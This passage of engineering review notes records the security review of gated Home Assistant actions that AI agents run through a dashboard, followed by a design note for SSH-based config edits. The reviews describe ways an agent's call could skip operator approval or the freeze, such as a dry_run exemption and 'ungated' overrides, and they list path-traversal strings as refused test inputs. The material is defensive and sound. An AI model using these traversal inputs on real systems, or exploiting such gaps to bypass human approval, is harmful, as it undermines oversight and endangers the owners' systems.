the `mcp` plan-claim owner binding as the points to check.

**Round 3 (2026-11-10, `2f0fdf1`): approved by the feature reviewer,
to security.** `is_supervisor_rest_path` now unquotes until the path stops
changing. It then refuses any dot segment, backslash or control character,
whatever the prefix, before the prefix check. I re-probed it with 15
spellings: every round 2 bypass, plus `%252e%252e`, `..%2f`, `hassio%2f`,
upper case, a trailing `..` and `%00`. All are refused, while
`api/states/light.kitchen`, `api/services/light/turn_on` and an encoded
space still pass. 116 F10 and F3 tests pass locally.
**Next:** the security reviewer (§ 2.6a). Points to check: the M1 three
checkpoints and N1, the `mcp` plan-claim owner binding (M2), and
`ha_host_reboot` never being plan-coverable (S1).

#### Security reviewer sign-off

**Code review (`3a6f65b`), 2026-11-10: changes requested (P1–P3).** I read
`ha_supervisor.py`, the three checkpoints in `tool_runner.py` and
`integration_proxy.py`, `session_plans.py`, the `session_plan` MCP tool and
the approval-mode lookup. I did not run anything.

*The three points I was asked to check hold:*

* **M1 and N1, the path guard.**
  - The guard runs at all three checkpoints: before gating, in the curated
    executor and in the generic executor. An already-approved call is
    re-checked when it runs.
  - Decoding until the path stops changing, then refusing dot segments,
    backslashes and control characters whatever the prefix, is the right
    shape. Refusing beats normalising.
  - I found no spelling that gets past it through the query string, `;`,
    repeated encoding or case.
* **M2, the owner binding.** The plan claim checks the session's owner in
  the same statement, so an ownerless session or an unauthenticated caller
  matches nothing.
* **S1.** `ha_host_reboot` can never be a plan item.

*Must fix:*

* **P1. An operator can approve a plan item without being able to see what
  it does.**
  - `_validate_mcp_item` accepts an `args_hash` from the agent with no
    `args`. Even when `args` are given, only the hash is kept.
  - The operator's plan card therefore shows `mcp: <integration>.<tool>
    (<12 hex chars>)`, and they approve bytes they cannot read.
  - Any tool can be a plan item, including the HA generic write and
    `call_service`. There, the hidden arguments are an arbitrary path and
    body.
  - Fix 1: refuse a bare `args_hash`. `args` are required.
  - Fix 2: when the plan is proposed, keep a display copy of the arguments
    for the plan card, with secret-looking keys redacted by the existing
    scrubber, and match on the hash as now. For a handler tool, also store
    its preflight summary, for example `addon_update | slug | 1.2 -> 1.3`,
    and show that.
  - Fix 3: make plan coverage an allowlist, not one excluded tool. Only the
    curated F10 actions can be plan items: add-on action, add-on update,
    Core update, backup create and Core restart. The generic read and write,
    `call_service`, `ws_write` and the reboot never can. S1 then follows
    from the allowlist.
  - Tests:
    - a bare hash is refused;
    - the plan card shows the redacted arguments or the summary;
    - a generic-write or `call_service` item is refused as
      `not_plan_coverable`.
* **P2. An agent's "ungated" override switches off `always_gate`.** In
  `tool_runner`, `approval_mode() == 'ungated'` sets `should_gate = False`
  after `always_gate` set it to True. The lookup also falls back to the
  `ha.*`, `ha_*` and `*` wildcards.
  - Result: an agent whose policy said `ha.*: ungated` before F10 now runs
    backups, updates, restarts, and reboots once enabled, with no approval
    card at all.
  - Fix: on an `always_gate` tool, ignore `ungated`. Plans (P1) are the one
    way to pre-approve these, and the reboot can never be pre-approved.
    Audit an ignored override once per agent and tool, so the operator
    learns why it had no effect.
  - Tests: `*: ungated`, `ha.*: ungated` and an exact `ha.ha_core_update:
    ungated` each still queue the call.
* **P3. The config-check rule for a Core restart is checked only in
  preflight.** Preflight runs only when the call is queued, so the rule is
  skipped in three cases:
  - a plan-claimed restart;
  - an ungated one (until P2 is fixed);
  - an approval that arrives long after the check went stale.

  Fix: check "a valid `ha_check_config` within 10 minutes" again inside the
  restart handler, right before the POST, and refuse with
  `ha_check_config_stale`. Tests: a plan-claimed restart with no recent
  check is refused; an approval that arrives after the check expired is
  refused and nothing is sent.

*Should fix:*

* **S-a. Widen the Supervisor prefix to the whole first segment.** Refuse
  any path whose first segment starts with `hassio`, which also covers HA's
  add-on ingress proxy, `hassio_ingress`. Run the check on the full request
  path, including any path that is part of the integration's own
  `base_url`, not only on the tool's part. Test: a `hassio_ingress/...`
  path is refused at all three checkpoints.
* **S-b. Say where FORBIDDEN stops.** An approved generic HA write to the
  automation, script or scene config API can define an action that calls
  any `hassio.*` service, and running it reaches what FORBIDDEN names.
  Scanning the body cannot catch this, because templates can build the
  domain name. Document it in § 3: FORBIDDEN covers direct paths, and
  approving a config write grants admin power. Give those approval cards
  the same red line as the reboot. P1 already keeps them out of plans.

**Verdict:** changes requested. Once P1–P3 have their tests, I review only
that diff. F10 must not merge before then.

**Round 4 code review (feature reviewer, 2026-11-10, `2a2ca70` on `b8b5f48`):
approved; to the security reviewer for the P1–P3 diff.** CI is green;
`tests/test_f10_ha_supervisor_actions.py`: 111 passed here.

* **P1:** an `mcp` plan item needs a `dict` of `args` (a bare hash is refused,
  a supplied hash must match); coverage is an allowlist of the five curated
  actions; the card shows the scrubbed arguments and the preflight summary,
  both through `escapeHtml`.
* **P2:** `ungated` no longer clears `always_gate`, for exact keys and
  wildcards; the ignored override is audited once per agent and tool.
* **P3:** `_config_check_fresh` runs in the handler right before the restart,
  so plan-claimed, ungated and late-approved restarts are refused.
* **S-a / S-b:** `hassio*` first segments (ingress) are refused, the check
  includes the integration's base path, and automation/script/scene writes
  carry the red admin-power line.

Two small hardening points. Fold them with any security changes; they do not
need another round from me:
* **R1:** `claim_mcp_plan_item` does not re-check `PLAN_COVERABLE_TOOLS`. Only
  `create_plan` checks it today, which is enough, but one extra
  `tool in PLAN_COVERABLE_TOOLS` test at claim time keeps a future insert path
  from widening coverage.
* **R2:** the allowlist is by tool name only. Also require the integration's
  `kind == 'ha'` at validation and at claim, matching F16's V6 rule (kind +
  tool).

### Round 4 — R1 and R2

**Commit: `8f76878`** (`dashboard/db/session_plans.py` and
`tests/test_f10_ha_supervisor_actions.py`). It is the only code commit the
security reviewer needs to read: the diff adds R1/R2 on top of `2a2ca70`
(P1–P3, S-a/S-b), so the P1–P3 diff and R1–R2 are read together.

* **R1 — the claim re-checks the tool.** `claim_mcp_plan_item` returns `None`
  for anything outside `PLAN_COVERABLE_TOOLS` before it opens the plan, so a
  row written by a future insert path cannot widen what an approved plan
  spends. `create_plan` still refuses it first; this is the same allowlist
  applied at the point of use.
* **R2 — (kind, tool), not the tool name.** An `mcp` item must name an
  integration whose row has `kind == 'ha'`, checked in `_validate_mcp_item`
  and again in `claim_mcp_plan_item`. The kind is read from the integrations
  row by name, never taken from the caller (the item stores the name and the
  claim matches the name, so the kind has to come from the same row); an
  unknown name is not HA and is refused the same way. `create_plan`'s order
  is unchanged, so a non-curated tool or a bare `args_hash` is still reported
  as before, and an unknown integration only fails once the item is otherwise
  valid.
* **Tests** (`TestPlanCoverage`): validation refuses a custom-kind
  integration and an unknown one (`not_plan_coverable`, with the name in the
  message); a row whose `tool` was changed to `write` directly in the table is
  not claimable, and the same row is claimable after the tool is put back; a
  row whose `integration` was changed to a custom-kind one is not claimable,
  and is claimable again once re-pointed at `ha`. The "put it back" halves
  show each refusal is the new check and not a broken fixture.
  Tests that create an `mcp` plan item now take the `ha` fixture, since the
  item needs a real HA integration row.

`bash scripts/verify.sh`: `2462 passed, 14 skipped, 7 warnings in 488.87s (0:08:08)`.

### Security review — P1–P3 and R1–R2 code (2026-11-10, `2a2ca70` + `8f76878`)

**Verdict: changes requested. One blocker (K1), one must (K2) and one small
fix (K3).** P1–P3, S-a, S-b, R1 and R2 are done as asked. K1 is in code from
before this diff. I missed it in my first F10 code review; it was found while
checking how P2's `always_gate` interacts with the rest of the gate.

What is right:
* **P1:** a plan item needs its real `args`, and a supplied hash must match
  them. Coverage is an allowlist of five actions. The card shows the scrubbed
  arguments and the summary, both escaped.
* **P2:** an `ungated` override cannot remove `always_gate`, including
  wildcards, and the ignored override is audited.
* **P3:** the 10-minute check is repeated in the handler, just before the
  restart.
* **R1 and R2:** the claim checks the tool allowlist again and requires an
  integration of kind `ha`, read from the row.
* **S-a:** `hassio*` first segments are refused, and the base path is checked
  at the runner and in `execute_generic_call`.
* **S-b:** the red line appears on the card.

Changes:

* **K1 (blocker): a handler dry-run skips the gate even when the handler has
  no dry-run.**
  * `tool_runner.py:614` sets `should_gate = False` for *any* handler call
    that carries a truthy `dry_run`. The freeze check at `:474` has the same
    exemption.
  * The comment says curated handlers honour `dry_run`. The
    `ha_supervisor_action` handler, used by all six Supervisor tools including
    the reboot, does not: `run_supervisor_action` never reads it.
  * So the exemption skips the approval card and Emergency Freeze, and then
    runs the real action. `always_gate`, P2 and the plan rules never come into
    play.

  Fix:
  * Exempt only handlers that are listed as implementing a dry run, in a
    named set next to `HANDLERS` (for example `DRY_RUN_HANDLERS`). Use the
    same set at both places in the runner.
  * `ha_supervisor_action` is not in that set.
  * As a second layer, the Supervisor handler refuses a call whose arguments
    include `dry_run`.

  Test: for each of the six Supervisor tools, a call with `dry_run` set
  queues a card (or is refused) and makes no Supervisor request, both with
  and without freeze. F11's `ha_config_write` will rely on the same set, so
  its dry run must be the one in the set and must open no write.
* **K2 (must): an automation, script or scene config write can still skip
  the card.**
  * S-b adds the red line to the *card*, but an agent policy of `ungated`
    (exact, `ha.*` or `*`) on the generic write tool means no card is made.
  * Writing an automation and then triggering it reaches any `hassio.*`
    service. That is the power P2 keeps gated.

  Fix: treat `is_admin_config_write(path)` like `always_gate`. `ungated` does
  not clear it, and the override is audited the same way. The generic write
  is not plan-coverable, so this closes it.

  Test: `ha.*: ungated` plus a write under `config/automation/` queues a card
  with the red line.
* **K3 (should, one line): the third S-a check point.**
  `integration_proxy.py:755` (`execute_integration_call`) still calls
  `is_supervisor_rest_path(path)` without the base path. Switch it to
  `is_supervisor_rest_request(integration.get('base_url'), path)`, as at the
  other two.
* **Nits:**
  * `_mcp_display` truncates the argument display at 2000 bytes, while the
    match uses the full arguments. Refuse an item whose display would be
    truncated, so the operator never approves a hidden tail. The curated
    actions take short arguments.
  * `_normalise_rest_path`'s docstring says it returns `''` for a
    non-canonical path; it returns `None`.

After K1–K3, I review only that diff.

**Security reviewer — K1 severity (2026-11-10, after `9ecd160`):** I accept
the reachability check. FastMCP generates one function per tool and drops
undeclared arguments. No Supervisor tool declares `dry_run`, and
`lovelace_save_config`, the only tool that does, honours it. So K1 cannot be
reached over MCP today, and nothing live is exposed. **K1 drops from blocker
to must (defence in depth).**

It still lands before F10 merges, for three reasons:
* the runner's rule is wrong whatever the transport;
* an operator can add a `dry_run` parameter to a tool's params;
* F16's recipe engine will build arguments itself, without going through
  FastMCP.

K2 and K3 are unchanged.

**K1 reachability (feature reviewer, 2026-11-10).** K1 is right about the code,
and the fix stands. It cannot be reached over MCP today, though:
* `_build_tool_fn` gives every integration tool a typed signature built from
  its declared `params`. FastMCP (mcp 1.29) **drops undeclared arguments**:
  calling a tool that declares only `slug` with `{"slug": "x",
  "dry_run": true}` hands the function `slug` and `session_id` only (checked
  here).
* Only one seeded tool declares `dry_run`: `lovelace_save_config`. Its
  handler honours it, on `master`, on `feature-roadmap` and on F10. None of
  the six Supervisor tools declares it.

So no live gateway or dashboard is exposed, and Release 1 is not affected.
K1 is still a real safety net: an operator-edited tool, a future seed, or a
non-MCP caller could declare or pass `dry_run`. Fix as asked: a named set of
handlers that implement a dry run, used at both places; the Supervisor
handler refuses `dry_run`. Add one test that a declared-but-unsupported
`dry_run` on a Supervisor tool is still gated and frozen.

### Round 5 — K1, K2, K3 and the two nits

**Commit: `a463d31`.** It is the only code commit for this round, laid on top
of `8f76878` (R1/R2) and `2a2ca70` (P1–P3, S-a/S-b); the security reviewer
reads this diff next.

* **K1 — a named set of handlers that really dry-run.** `DRY_RUN_HANDLERS`
  sits next to `HANDLERS` in `core/tool_handlers.py` and holds
  `ha_lovelace_save_config` only. `tool_runner` asks
  `_dry_run_exempt(handler, args)`, which is `handler in DRY_RUN_HANDLERS`
  and the argument, at **both** places: the freeze check and the gate skip.
  A handler that ignores `dry_run` (the Supervisor action handler, any
  REST/WS/generic tool) is no longer exempt, so `dry_run: true` cannot run
  the real action with no card and no freeze. As the second layer,
  `_h_ha_supervisor_action` refuses a call whose arguments contain `dry_run`
  with `ha_supervisor_dry_run_unsupported` (400).
  Tests: each of the six Supervisor tools with `dry_run: true` (the reboot is
  enabled in the test, since the seed disables it) queues a card and makes no
  action call — the update preflights' GETs are allowed through — and, with
  freeze on, is refused `frozen` with nothing queued; the handler refuses
  `dry_run` directly; a tool whose params declare `dry_run` but whose handler
  is not in the set stays gated. `ha_lovelace_save_config` keeps its
  pre-gate dry run (the F9 tests cover it).
* **K2 — an admin config write is `always_gate`.** `is_admin_config_write`
  on the request path (automation/script/scene) now ORs into the same
  `always` flag as `tool.get('always_gate')`: it forces the card even under
  `gate_mode=destructive` with a non-destructive verb, `ungated` cannot clear
  it, and the ignored override is audited through `_audit_ignored_ungated`.
  The red admin-power line is unchanged and now rides on a card that always
  exists.
  Tests: `*: ungated` with each of the three prefixes (and a query string)
  queues a card whose summary starts with the warning; the audit row appears
  once; the predicate is scoped to those prefixes and not to `/api/states` or
  `/api/services`.
* **K3 — the executor checks the base path too.**
  `execute_integration_call` now calls
  `is_supervisor_rest_request(integration.get('base_url'), path)` — the same
  call as the runner and `execute_generic_call`. Test: an `ha` integration
  whose base URL ends in `/hassio`, a generic tool path `backups`, and the
  executor refuses with 403 and sends nothing upstream.
* **Nits.** An mcp item whose redacted argument display would exceed
  `MAX_ARGS_DISPLAY` (2 000 bytes) is refused with `invalid_args` instead of
  truncated, so the card never hides a tail that the hash still matches; the
  test builds a 3 000-byte argument. `_normalise_rest_path`'s docstring now
  says `None` (what it returns for a non-canonical path) and `''` only for an
  empty one — code unchanged.

`bash scripts/verify.sh`: `2485 passed, 14 skipped, 7 warnings in 501.02s (0:08:21)`.

**K1–K3 review (feature reviewer, 2026-11-10, `a463d31`): approved; to the
security reviewer for that diff only.** K1: `DRY_RUN_HANDLERS` (only
`ha_lovelace_save_config`) behind one `_dry_run_exempt()` at both the freeze
check and the gate skip, and the Supervisor handler refuses `dry_run`. K2:
`is_admin_config_write` sets the same `always` flag as `always_gate`, so
`ungated` cannot skip the card. K3: `execute_integration_call` uses
`is_supervisor_rest_request`. Both nits are done.

**Security reviewer — K1–K3 (2026-11-10, `a463d31`): approved. F10 may
merge.**
* **K1:**
  * `_dry_run_exempt()` is the only exemption, and it is used at both the
    freeze check and the gate skip.
  * `DRY_RUN_HANDLERS` holds only `ha_lovelace_save_config`, whose handler
    does return before writing on `dry_run`.
  * The Supervisor handler refuses any call whose arguments include
    `dry_run`, so a future runner mistake still fails closed.
  * The tests cover all six Supervisor tools, gated and frozen, plus a
    handler that declares `dry_run` but is not on the list.
* **K2:** an admin config write sets the same `always` flag as
  `always_gate`. `ungated` is audited and ignored, and the red line comes
  from the same flag. A generic write still can't be covered by a plan, so
  the card is the only way through.
* **K3:** all three check points now include the base path.
* **Nits:**
  * Over-long plan arguments are refused, not truncated.
  * The docstring is fixed.
  * One leftover, which does not block: if `_mcp_display` hits an exception,
    it returns `''`, which passes the length check and shows no arguments.
    Refuse the item when the display is empty but `args` is not, on the
    next F10 touch or F16.

---

## Chunk F11 — HA config files via the SSH add-on · slug `ha-config-files` · dashboard

> **Design first,** like F5: push a design note only, wait for approval, then implement.

### Why

YAML-only integrations need edits to `/config/*.yaml`, and no HA API writes
config files. The supported route is the **Advanced SSH & Web Terminal** add-on.
It cannot be an Eshu gateway: the add-on is an Alpine container without systemd
(no poller, logger or `systemd-run`) that is rebuilt on every add-on update. So
the **dashboard itself** connects to it.

### Design (to be confirmed in the design note)

* A new integration kind `ha_ssh` (or an "SSH access" section on the HA
  integration): host, port, username, and a **private key made only for this
  use**, stored like other integration secrets (masked, scrubbed). The host key
  is pinned on first use (TOFU) and shown to the operator; a changed key refuses.
* Transport: the system `ssh` client via `subprocess` (no new Python package),
  `BatchMode=yes`, `StrictHostKeyChecking=yes` with an Eshu-owned
  `known_hosts`, a temp key file under a 0700 dir, deleted afterwards, and a
  timeout. Commands are **fixed templates**, never agent-supplied shell. Reuse
  the dashboard-side SSH runner built in F12 (`ssh_exec`).
* Tools:
  * `ha_config_list()`: `*.yaml` under `/config` and `/config/packages/**`.
  * `ha_config_read(path)`: allowed paths only (above). `secrets.yaml`
    returns key names with values masked. Refused: `.storage/**`, `*.db*`,
    `.ssh/**`, anything outside `/config`, symlinks (checked on the remote with
    `realpath`). Returns `content` and `sha256`.
  * `ha_config_write(path, content, expect_hash, dry_run)`: mutating, always gated.
    `dry_run` returns a unified diff without approval. On approval:
    (1) re-check `expect_hash`; (2) copy to `<path>.eshu-<ts>.bak`;
    (3) write via stdin to a temp file and `mv` it into place; (4) run `ha core check`.
    (5) **If the check fails, restore the backup automatically** and return the
    check output. The approval card shows the diff (F2's card renders it).
  * `ha_config_restore(path, backup)`: gated; restores a `.eshu-*.bak`.
  * `ha_core_restart` from F10 also accepts a passing `ha core check` from this transport.
* Freeze blocks writes and restores. Results (output, exit code) are stored like F5's.
* Setup doc: create an Eshu-only key pair, add the public key to the add-on's
  `authorized_keys`, and keep "Protection mode" **on** (with it off, the add-on can control Docker = the whole host).

### Tests to add (outline; finalised in the design note)

* Path allowlist and refusals (including `..`, symlinks, `secrets.yaml` masking).
* Hash mismatch refuses; failed check restores the backup (stub the ssh runner).
* Changed host key refuses; key file permissions and cleanup.
* Command templates are built with `shlex.quote` and never include agent text unquoted.

### Implementer notes

**Status: design note only — no code on this branch.** F11 is design first
(like F5) and needs the security reviewer's sign-off. It reuses two branches
that are not merged yet: **F12** (`feat/f12-ssh-exec`, the dashboard-side SSH
runner) and **F10** (`feat/f10-ha-supervisor-actions`, the always-gated
action handler and preflight pattern). This note references their designs by
section; it does not copy their code.

#### 1. Why the dashboard connects to the add-on

The **Advanced SSH & Web Terminal** add-on is the supported way to touch
`/config/*.yaml`: no HA API writes config files. It cannot be an Eshu gateway
— an Alpine container without systemd (no poller, logger or `systemd-run`),
rebuilt on every add-on update. So the dashboard opens the SSH connection
itself, exactly the way F12's `ssh_exec` does for gateways, with three
differences that this note is about:

* the login is a **user** on the add-on (normally `root`), not the
  `eshu-gateway` forced command, so there is **no gateway-side gate** behind
  Eshu: every check in this note is the only check;
* the commands are **fixed templates**, never agent text (no `ssh_exec`, no
  `bash -c "$agent_text"`);
* the key, the host-key pin and the connection live on the **integration
  row**, not on a gateway row.

Protection mode stays **on** in the add-on: with it off, the add-on can drive
Docker, which is the whole host. Eshu does not need it off for any tool here.

#### 2. Integration kind `ha_ssh`

A new integration kind (`kind = 'ha_ssh'`) with these fields, all stored the
way integration credentials already are (`secret` masked in every response,
scrubbed in every record):

| field | meaning | default |
|---|---|---|
| `base_url` | `host` or `host:port` of the add-on | — |
| `secret` | the **private key** (OpenSSH ed25519, no passphrase) | — |
| `config_json.ssh_user` | login user | `root` |
| `config_json.ssh_port` | port | `22` |
| `config_json.host_key` | the pinned public host key line | `''` until first use |
| `config_json.host_fingerprint` | `SHA256:…` of the pin, for display | `''` |

* The key is **made for this use only**. The design recommends the dashboard
  generate it (`ssh-keygen -t ed25519 -N '' -C 'eshu-ha-config'`) when the
  integration is created and show the public line once, for the operator to
  add to the add-on (`authorized_keys` of the add-on's user), exactly like
  F12's `/api/ssh-key` flow. It is stored in the integration's `secret`, so
  the existing masking/scrubbing applies.
* **Host-key pin (TOFU).** The first successful connection records the host
  key line and its fingerprint; the operator sees the fingerprint in the
  integration card. A later connection whose key differs is **refused**
  (`ssh_host_key_changed`) and audited; re-pinning is an explicit, audited
  operator action (the same rule as F12 §4/R6).
* **Pin before write.** Read tools may run once TOFU has happened. A **write
  or restore requires an existing pin** (`ssh_host_unpinned` otherwise): the
  first connection of a brand-new integration is a read (`ha_config_list`),
  so a write can never be the thing that establishes trust.

#### 3. Transport: F12's runner, with no gateway prefix and no envelope

F11 reuses the **pure runner** from F12 (`core/ssh_exec.py` on
`feat/f12-ssh-exec`): the fixed argv (registered IP, `-F /dev/null`,
`BatchMode=yes`, `IdentitiesOnly=yes`, `StrictHostKeyChecking=yes`,
`UserKnownHostsFile=<pin file>`, `GlobalKnownHostsFile=/dev/null`,
`ConnectTimeout=10`, `LANG=C`), the process-group kill on timeout, and the
key-dir/known-hosts helpers in `core/ssh_keys.py`. Two F12 artifacts do not
apply and are switched off:

* **no signed prefix and no `ESHU-MCP-ENVELOPE`**: the add-on has no Eshu
  gateway code, so the connection is a plain SSH command whose stdout/stderr
  is captured and scrubbed (F12's envelope exists because a *gateway* runs
  the command; here Eshu builds every byte itself);
* **no agent identity**: the audit actor is the calling agent, but there is no
  per-agent identity on the add-on side.

Concretely, F11 needs a small extraction in F12's module (a follow-up commit
on whatever branch merges second — the design does not duplicate the runner):

```python
# core/ssh_client.py (shared by F12's ssh_exec and F11)
def build_argv(target, command_line, known_hosts, key_path): ...
def run_ssh(target, command_line, known_hosts, key_path, timeout): ...
# target = {'ip': …, 'port': 22, 'user': 'root', 'envelope': False}
```

with the exact hardening of F12 §4/§G7 unchanged. F11 keeps its own
connection limits: **timeout 30 s** per call (these commands are file I/O and
`ha core check`), and a per-integration **rate limit** (the existing agent
rate limit applies too).

Key material: the private key is written to a `0600` temp file inside a
`0700` directory owned by the service user, `finally`-removed after the call;
a failure to create or lock that down refuses the call (`ssh_key_dir`), the
same rules F12 §4 uses for its service key.

#### 4. Fixed command templates

Every command is a constant template with validated slots. There is no
`bash -c` of agent text and no `ssh_exec`; a call's only inputs are a path, a
backup name and file content (which is streamed on **stdin**, never on the
command line).

```python
# core/ha_config_ssh.py (design)
CONFIG_ROOTS = ('/config', '/config/packages')
YAML_RE = re.compile(r'^[A-Za-z0-9._/-]{1,200}\.ya?ml$')
BACKUP_RE = re.compile(r'^[A-Za-z0-9._/-]{1,220}\.eshu-[0-9]{10}\.bak$')
MAX_BYTES = 256 * 1024

COMMANDS = {
    # list *.yaml under /config and /config/packages, one per line
    'list': "find /config -maxdepth 1 -type f -name '*.yaml' -o -maxdepth 1 -type f -name '*.yml'; "
            "find /config/packages -type f \( -name '*.yaml' -o -name '*.yml' \) 2>/dev/null",
    'read': 'cat -- {path}',
    'realpath': 'realpath -- {path}',
    'sha256': 'sha256sum -- {path}',
    'backup': 'cp -p -- {path} {backup}',
    'write': 'tee -- {tmp} >/dev/null && mv -f -- {tmp} {path}',
    'restore': 'cp -p -- {backup} {path}',
    'check': 'ha core check 2>&1',
}
```

* `{path}` is only ever a path that passed the allowlist in §5, and it is
  `shlex.quote`d when the command is assembled.
* `write` streams the new content on stdin to a `.eshu-tmp-<random>` file in
  the same directory and `mv`s it into place (atomic on one filesystem,
  keeps the target's directory entry). The temp name is generated
  server-side from `secrets.token_hex`, never from the path.
* `check` is `ha core check` — the CLI inside the add-on, which is the same
  check the F10 `ha_check_config` tool does over the API. Its exit code is
  the structured result (0 = valid).

#### 5. Path policy

`ha_config_list()` lists `*.yaml`/`*.yml` under `/config` and
`/config/packages/**` only.

`_resolve_config_path(path)` runs **on the dashboard** and again **on the
remote**, and refuses unless all of these hold:

1. `path` matches `YAML_RE` (no `..`, no spaces, no shell characters, one of
   the two roots, ends in `.yaml`/`.yml`);
2. `realpath -- <path>` (run remotely) is **inside** `/config` and does not
   cross into `.storage/`, `.ssh/`, `*.db*`, `deps/`, `tts/` or any dot
   directory, and it **equals** the requested path (a symlink that resolves
   elsewhere is refused, not silently followed);
3. the file exists and is a regular file (for read/write/restore);
4. for `secrets.yaml` the read is allowed but **masked**: only key names and
   `"***"` values are returned (`secrets_masked: true`).

The refused list is a table test: `.storage/**`, `*.db*`, `.ssh/**`,
`/config/../etc/passwd`, `..%2f`, absolute paths outside `/config`,
symlinks, directories, non-YAML files (for write), and content over 256 KiB.

#### 6. Tools

| tool | gated | behaviour |
|---|---|---|
| `ha_config_list()` | no | YAML files under the two roots, with size + mtime |
| `ha_config_read(path)` | no | `{content, sha256, size}`; `secrets.yaml` masked; a hash the operator can compare |
| `ha_config_write(path, content, expect_hash, dry_run)` | **yes** | `dry_run` returns a unified diff **without approval**; a real write is gated |
| `ha_config_restore(path, backup)` | **yes** | restores a `.eshu-<ts>.bak`, then checks |
| `ha_config_check()` | no | runs `ha core check` and records the result (below) |

**`ha_config_write` on approval** (F10's `always_gate` + preflight pattern):

1. the call arrives with `expect_hash` (from the `read` before it); the handler
   re-reads the file and **refuses on a mismatch** (`config_hash_changed` —
   someone edited it since the diff was shown);
2. `cp -p -- path path.eshu-<ts>.bak` (kept; the retention rule is "keep the
   last 10 backups per file", pruned by a read-only list + explicit delete,
   not by the write path);
3. write the new content on stdin to a temp file and `mv` it into place;
4. `ha core check`;
5. **if the check fails, restore the backup automatically** and return
   `{error: "config_check_failed", rolled_back: true, check_output: …}`;
6. on success return `{ok: true, backup, sha256: <new>, check: "valid"}` and
   record the check result in F10's meta key (see §8).

**`ha_config_restore`**: the backup name must match `BACKUP_RE`, belong to the
same path, and exist. Restore, then check; if the check fails, put back the
content that was there before the restore (a second temp copy) and return
`restored: false, rolled_back: true`. Nothing is deleted by a restore.

**The approval card** (F2) shows, for a write: the file path, the expected vs
current hash, the unified diff (`dry_run` output, computed by the
**preflight** so the card never queues a doomed write), and the plan to back
up + check + auto-restore. For a restore: the backup name, its timestamp and
the same check/rollback promise.

#### 7. Freeze, results and audit

* Freeze blocks every write and restore before queueing (F10's rule, tested):
  the call is refused with `frozen` and nothing is fetched or written.
  Reads keep working while frozen, like F9's integration reads.
* Every call records an integration-call row: tool, agent, session, the
  **fixed command template name** (not the expanded command), the exit code,
  a scrubbed output tail (8 KiB), the bytes read/written and the backup name.
  These are not `request_results` (those are keyed to a JIT request); the
  integration-call row is the record, as for every other integration call.
* Audit events: `ha_config_write` (path, hash old→new, backup),
  `ha_config_restore` (path, backup), `ha_config_check` (result) and
  `ha_config_rollback` (when the automatic restore fires). The file content
  itself is never in an audit row (it may hold secrets).

#### 8. Interaction with F10's `ha_core_restart`

F10's `ha_core_restart` refuses unless `meta['ha_check_config_<integration>']`
holds a `valid` result from the last 10 minutes (recorded by F10's
`ha_check_config` handler). F11's `ha_config_check` writes **the same meta
key** with `{result, at, source: 'ha_ssh'}` after a successful check, so:

* "edit YAML → check → restart" works with one F10 approval for the restart;
* a failed check never writes `valid` (the key keeps the previous result, and
  the failed check is in the audit trail and the call row);
* the 10-minute window is shared, so a check from either transport counts, and
  its age is visible in the restart refusal message.

This is the only coupling between F11 and F10: the meta key and its shape. It
is already in F10's code; F11 does not change F10's handlers.

#### 9. Setup doc

`docs/HA_CONFIG_SSH.md`:

1. install the Advanced SSH & Web Terminal add-on, **protection mode on**,
   bind it to the LAN only (no ingress, no public exposure);
2. create the Eshu key (or let the dashboard generate it) and append the
   public line to the add-on's `authorized_keys` for the chosen user;
3. add the integration in Eshu (`host:port`, user, private key), run
   `ha_config_list` once, compare the shown host-key fingerprint with
   `ssh-keygen -lf /etc/ssh/ssh_host_ed25519_key.pub` in the add-on, then use
   writes;
4. what Eshu does **not** do: install packages, change add-on options, restart
   the add-on, touch `.storage`, or run arbitrary commands. If the add-on is
   removed or its key rotated, writes fail closed (`ssh_host_key_changed` or
   auth failure) until the integration is updated.

#### 10. Tests to add (final)

* path policy: accept `/config/*.yaml` and `/config/packages/**`; refuse
  `.storage`, `*.db*`, `.ssh`, `..`, absolute outside `/config`, symlinks
  (remote `realpath` differs), directories, non-YAML for write, >256 KiB;
* `secrets.yaml` read: keys only, values masked, `secrets_masked` true;
* write: hash mismatch refuses before any SSH call; dry-run returns a diff and
  queues nothing; a write backs up, writes atomically and checks; a failed
  check restores the backup and reports `rolled_back`;
* restore: a bad backup name/path refuses; a successful restore checks; a
  failed post-restore check puts the previous content back;
* pin: no pin → reads allowed, writes refused; first connect pins and shows
  the fingerprint; a changed key refuses and audits; re-pin is audited;
* freeze: writes and restores refuse, reads still work, nothing queued;
* runner reuse: the argv has `-F /dev/null`, the pin file, `BatchMode`,
  `IdentitiesOnly`, the configured port/user; the key temp file is removed
  even on a timeout (stub `run_ssh`);
* F10 coupling: a passing `ha_config_check` makes `ha_core_restart` queueable
  within 10 minutes; a failed one does not;
* approval card: the preflight summary and diff are on the pending call.

#### Open questions

1. **Who creates the key**: the dashboard (generate + show the public line,
   like F12 `/api/ssh-key`) or the operator (paste an existing private key)?
   The note assumes the dashboard generates; pasting stays possible for
   operators who manage keys elsewhere.
2. **TOFU vs an explicit pin at setup**: the note pins on the first *read* and
   requires a pin before any write. The alternative — the operator pastes the
   add-on's host key during setup — is stricter and removes the TOFU window;
   which does the security reviewer prefer?
3. **User**: the add-on's usual user is `root`, which is what `/config` writes
   and `ha core check` need. A dedicated non-root user would need sudoers
   inside the add-on; the note assumes `root` and documents it. Confirm that
   is acceptable given protection mode is on and the port is LAN-only.
4. **Backup retention**: "keep the last 10 per file" needs a delete path
   (there is no `rm` tool in the table). Either a maintenance task prunes them
   or `ha_config_write` prunes after a successful write; the note prefers the
   latter (a fixed `find … -name '*.eshu-*.bak'` template, no agent input)
   and asks the reviewer to confirm that a delete template is in scope.

`bash scripts/verify.sh`: `2331 passed, 7 warnings in 428.95s (0:07:08)` (docs-only).

### Round 2 — design after review round 1 (H1–H8)

This section is the design of record where it differs from §1–§10; it also
answers the four open questions, as the reviewer asked. The rest still stands.

#### H1 — secrets never pass through the dashboard in clear

`secrets.yaml` holds the credentials every other YAML file references. Three
rules replace the round-1 "mask after `cat`" (which still left the raw value
in the integration-call row, the `dry_run` diff and the approval card):

1. **Read is masked remotely.** `ha_config_read('secrets.yaml')` runs a fixed
   template on the add-on that prints **key names only**, so the values never
   leave the add-on and no dashboard code, log or row can see them:
   `sed -n 's/^\([A-Za-z0-9_]*\):.*/\1/p' -- {path}`. The response is
   `{keys: [...], masked: true, size, sha256}`; there is **no `content`
   field** for this file.
2. **Write and restore of `secrets.yaml` are refused**
   (`config_secret_refused`) before any connection: the operator edits it
   through the add-on's own editor or the HA UI. Eshu does not rewrite the
   credential file.
3. **Read and `dry_run` results are never stored.** The integration-call row
